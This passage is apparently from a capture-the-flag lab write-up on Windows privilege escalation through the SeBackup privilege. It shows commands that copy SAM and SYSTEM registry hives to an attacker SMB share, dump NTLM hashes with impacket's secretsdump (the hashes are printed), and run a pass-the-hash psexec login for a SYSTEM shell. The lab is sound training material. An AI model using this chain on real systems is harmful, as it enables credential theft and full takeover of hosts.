 ![](/assets/img/Pasted image 20230104000028.png)

	- This will create a couple of files with the registry hives content.
	- We can now copy these files to our attacker machine using SMB or any other available method.

##### For `SMB` we can use impacket's `smbserver.py` to start a simple SMB server with a network share in the current directory of our AttackBox:

`$ mkdir share`
`$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share`

![](/assets/img/Pasted image 20230104003227.png)

	- This will create a shared named 'public' pointing to the 'share' directory, which requires the username and password of our current windows session.
	- After this, we can use the 'copy' command in our windows machine to transfer both files to our AttackBox:

`> copy C:\Users\THMBackup\sam.hive \\<ATTACKER-ip>\public\`
`> copy C:\Users\THMBackup\system.hive \\<attacker-ip>\public\`

![](/assets/img/Pasted image 20230104003539.png)

##### Using impacket to retrieve the users' password hashes:

`$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive`

![](/assets/img/Pasted image 20230104003620.png)

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMBackup:1008:aad3b435b51404eeaad3b435b51404ee:6c252027fb2022f5051e854e08023537:::
THMTakeOwnership:1009:aad3b435b51404eeaad3b435b51404ee:0af9b65477395b680b822e0b2c45b93b:::
```

##### Using the Admin's hash to perform a "Pass-the-Hash" attack and gain access to the target machine with `SYSTEM privileges` using `psexec`:

`$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.124.133`

	- Basically, it uses the hash to log into the Windows system of the Administrator user.

![](/assets/img/Pasted image 20230104004151.png)

	- Got an elevated shell!

### SeTakeOwnership
- The `SeTakeOwnership` privilege allows a user to take ownership of any object on the system, including `files` and **registry keys**, opening up many possibilities for an attacker to elevate privileges, as we could.
